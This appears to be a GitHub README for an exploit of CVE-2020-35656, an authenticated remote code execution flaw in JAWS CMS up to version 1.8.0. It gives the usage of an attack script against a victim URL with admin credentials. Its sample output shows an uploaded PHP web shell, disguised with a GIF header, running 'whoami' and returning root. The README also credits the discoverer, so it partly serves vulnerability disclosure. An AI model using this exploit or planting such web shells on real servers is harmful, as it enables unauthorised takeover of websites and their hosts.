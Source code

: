 # Jaws-CMS-RCE CVE-2020-35656
Authenticated RCE JAWS CMS &lt;=1.8.0


python jaws-rce.py
[+]Usage python jaws-rce.py http://victim.com/ admin admin




python jaws-rce.py http://192.168.1.98/jaws-master/jaws-master/ jawsadmin admin



Shell Location=== http://192.168.1.98/jaws-master/jaws-master/data/files/cmd47.php?c=whoami



GIF89a

root




# Discoverer

Bassam Assiri https://twitter.com/BassamAssiri  https://www.linkedin.com/in/bassam-assiri-9418401ab/
